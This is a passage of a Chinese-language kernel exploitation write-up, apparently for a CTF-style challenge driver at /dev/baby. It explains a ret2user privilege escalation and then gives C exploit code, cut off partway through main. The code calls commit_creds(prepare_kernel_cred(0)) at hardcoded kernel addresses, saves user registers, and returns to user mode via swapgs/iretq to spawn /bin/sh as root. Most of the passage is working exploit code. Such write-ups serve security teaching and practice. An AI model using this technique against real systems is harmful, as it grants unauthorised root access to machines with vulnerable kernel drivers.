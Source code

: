 由于什么保护都没有打开，可以直接ret2user

所以利用思路就是在exp代码中构造提权函数`commit_creds(prepare_kernel_cred(0));`以及恢复寄存器的函数，计算好偏移后直接覆盖内核中的返回地址为exp中用户态代码，完成提权

![](https://tva1.sinaimg.cn/large/0081Kckwly1glwh3lm4ekj30u00wnjuh.jpg)

exp：

```c
#include <stdio.h>
#include <pthread.h>
#include <unistd.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

#define KERNCALL __attribute__((regparm(3)))

void* (*prepare_kernel_cred)(void*) KERNCALL = (void*) 0xffffffff810b9d80; // TODO:change it
void (*commit_creds)(void*) KERNCALL = (void*) 0xffffffff810b99d0; // TODO:change it

unsigned long user_cs, user_ss, user_rflags, user_sp;

void save_stat() {
    asm(
        "movq %%cs, %0;"
        "movq %%ss, %1;"
        "movq %%rsp, %2;"
        "pushfq;"
        "popq %3;"
        : "=r" (user_cs), "=r" (user_ss), "=r" (user_sp), "=r" (user_rflags) : : "memory");
}

void shell()
{
	system("/bin/sh");
	exit(0);
}

int get()
{
	commit_creds(prepare_kernel_cred(0));
	asm(
		"pushq   %0;"
		"pushq   %1;"
		"pushq   %2;"
		"pushq   %3;"
		"pushq   $shell;"
		"pushq   $0;"
		"swapgs;"
		"popq    %%rbp;"
		"iretq;"
		::"m"(user_ss), "m"(user_sp), "m"(user_rflags), "m"(user_cs)
	);
}


int main()
{
	save_stat();
	printf("[+]open drive\n");
	int fd = open("/dev/baby",0);
```